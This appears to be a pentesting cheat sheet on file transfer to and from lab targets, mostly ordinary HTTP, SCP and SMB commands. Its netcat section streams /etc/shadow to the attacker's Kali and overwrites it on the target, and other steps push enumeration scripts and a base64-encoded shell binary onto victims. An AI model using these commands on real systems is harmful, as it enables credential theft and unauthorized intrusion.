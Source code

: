 # Linux

## Simple HTTP server

Python HTTP server (for file sharing):

```bash
python -m http.server 80
```

**Downloading Files**

Using `wget` or `curl` to download files:

```bash
wget http://IP/file
curl -O http://IP/file
```

Example with `curl` specifying output file:

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

***

## SCP way with authorized keys

```
scp -P 25022 -i id_rsa.txt /opt/linuxpriv/linpeas.sh alfredo@192.168.161.249:~
```


-------

## **SMB File Sharing**

**On Kali (host):**

```
python /opt/impacket/examples/smbserver.py ROPNOP .
```

**On Victim (client):**

```powershell
copy \\kali-ip\ROPNOP\filename .
```

***

## **Netcat File Transfer**

Scene 1: When we have get files from other machine in our Kali

```plaintext
nc -nvlp 5555 < /etc/shadow       # On target machine MS01/HTB + enter
nc target_ip 5555 > shadow        # On our kali
```

Scene 2: When we share file to other machine from our Kali

```plaintext
nc target_ip 5555 < shadow        # it means whenever connection come share that file
nc -nvlp 5555 > /etc/shadow       # On target machine MS01/HTB + enter
```

***

## **Secure Copy Protocol (SCP)**

To copy files securely using SCP:

*   **Copy a file:**

    ```plaintext
    scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
    ```
*   **Copy a directory:**

    ```plaintext
    scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
    After
    ```

***

## base64

when blocked by firewall or cannot do anything

```bash
base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

copy generated string and paste to other

```bash
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

